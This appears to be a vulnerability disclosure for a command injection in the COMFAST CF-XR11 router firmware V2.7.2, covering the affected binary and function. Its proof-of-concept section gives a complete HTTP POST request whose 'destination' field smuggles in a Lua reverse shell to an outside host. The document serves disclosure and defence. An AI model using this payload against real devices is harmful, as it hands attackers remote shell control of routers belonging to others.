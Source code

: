 # CVE-ID

none

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_431F64`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `destination` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ping_config`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_431F64`, the program uses function `blobmsg_parse` to obtain the content of parameter `destination`, which are sent by `POST` request. On line 32, the attacker can complete command execution by controlling the `destination` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ping_config` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: 192.168.0.1
Content-Length: 174
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/tools/tools_ping.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-3a1697bd
Connection: close

{"destination":"127.0.0.1\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

